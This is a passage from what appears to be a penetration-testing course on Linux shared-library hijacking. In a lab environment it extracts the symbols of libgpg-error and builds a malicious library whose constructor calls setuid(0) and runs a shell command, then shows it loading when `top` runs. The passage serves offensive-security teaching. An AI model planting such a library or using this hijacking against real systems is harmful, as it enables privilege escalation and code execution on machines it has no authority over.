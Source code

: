 This means that certain variables or functions that the program expects to find when loading the original library have not been defined in our malicious library. As a result, the program won’t even attempt to run our library’s constructor.

We can simply define some variables with the same names that it expects and top should run.

Let’s examine it and determine what symbols it contains using the readelf utility. The `-s` parameter will give a list of available symbols in the library:
```bash
offsec@linuxvictim:~/ldlib$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;
...
int gpgrt_fflush;
int gpgrt_poll;
```

We’ll pipe that output to grep and search for lines containing “FUNC” representing symbols we need to capture.

We’ll then pipe this to grep again and filter out only the results that also contain “GPG_ERROR”, indicating they are stored in our library and not in an unrelated dependency.

We'll use `awk` to prepend "int" to the result, and `sed` to replace the version that will appear, with a `;` semicolon

If we edit our malicious code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid
static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;

void runmahpayload() {
	setuid(0);
	setgid(0);
	printf("DLL HIJACKING IN PROGRESS \n");
	system("touch /tmp/haxso.txt");
}
```

With the added symbols, we can compile it again:
```bash
offsec@linuxvictim:~/ldlib$ gcc -Wall -fPIC -c -o hax.o hax.c

offsec@linuxvictim:~/ldlib$ gcc -shared -o libhax.so hax.o
```

We can now run `top` without it crashing:
```bash
offsec@linuxvictim:~/ldlib$ top
top: /home/offsec/ldlib/libgpg-error.so.0: no version information available (required
by /lib/x86_64-linux-gnu/libgcrypt.so.20)
DLL HIJACKING IN PROGRESS
...
```
